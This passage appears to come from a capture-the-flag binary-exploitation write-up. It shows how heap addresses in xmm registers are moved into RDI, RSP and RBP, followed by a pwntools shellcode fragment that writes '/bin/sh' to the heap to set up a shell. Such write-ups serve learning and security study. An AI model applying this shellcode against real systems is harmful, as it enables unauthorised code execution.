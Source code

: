 {% hint style="info" %}
`xmm` are 128 bit registers
{% endhint %}

and this holds true as well here, as we can see below, from those `xmm` registers, we're able to retrieve heap addresses to RDI, RSP and RBP

<figure><img src="../../.gitbook/assets/image (198).png" alt="" width="563"><figcaption></figcaption></figure>

{% hint style="warning" %}
have you find out why this should never work in the first place?\
\
I should've realized about this sooner :^(&#x20;
{% endhint %}

let's try it, we can put `/bin/sh` to one of the heap address, and set RBP and RSP to the other address for our stack frame.

```python
shellcode = b''
shellcode += b'\x90' * 8
shellcode += asm(f'''
    movd rdi, xmm0
    movd rsp, xmm1
    movd rbp, xmm1
                    
    mov dword ptr [rdi], 0x6e69622f
    add rdi, 4
                    
    mov dword ptr [rdi], 0x0068732f
    sub rdi, 4
''')
```
